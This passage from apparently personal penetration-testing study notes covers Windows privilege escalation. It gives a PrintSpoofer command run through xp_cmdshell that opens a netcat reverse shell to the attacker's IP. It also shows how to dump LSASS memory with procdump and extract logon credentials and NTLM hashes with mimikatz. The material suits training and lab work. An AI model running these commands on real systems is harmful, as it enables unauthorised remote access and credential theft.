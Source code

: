 A netcat would give us the shell.

JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. We can use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer) or [RoguePotato](https://github.com/antonioCoco/RoguePotato). [Here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) are a better explanation about PrintSpoofer. 
```console
SQL> xp_cmdshell c:\tools\PrintSpoofer.exe -c "c:\tools\nc.exe <OUR IP> 8443 -e cmd"
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-c` | argument to execute a command |

Again, a netcat would give us the shell.

## SeDebugPrivilege 

To run a particular application or service or assist with troubleshooting, a user might be assigned the **SeDebugPrivilege**. We should aim for special accounts, for example a developer or sysadmin employee, who might have an account with this privilege assigned. We can use [ProcDump](https://docs.microsoft.com/en-us/sysinternals/downloads/procdump) from the SysInternals suite to leverage this privilege and dump process memory. A good candidate is the Local Security Authority Subsystem Service (LSASS) process, which stores user credentials after a user logs on to a system.
```console
C:\zeropio> procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

Now we can use [mimikatz](https://github.com/gentilkiwi/mimikatz) using the `sekurlsa::minidump` command. Then after `sekurlsa::logonPasswords` we gain the NTLM hash of the local administrator. 
```console
C:\htb> mimikatz.exe 

mimikatz # log 

mimikatz # sekurlsa::minidump lsass.dmp 

mimikatz # sekurlsa::logonpasswords
```

> Typing `log` will send all output command to a txt file
{: .prompt-tip}

If we are unable to load tools to the target, but have RDP, we can take the dump from the **Task Manager**. 

![LSSAS Dump](/assets/img/notes/system/WPE_taskmgr_lsass.png)
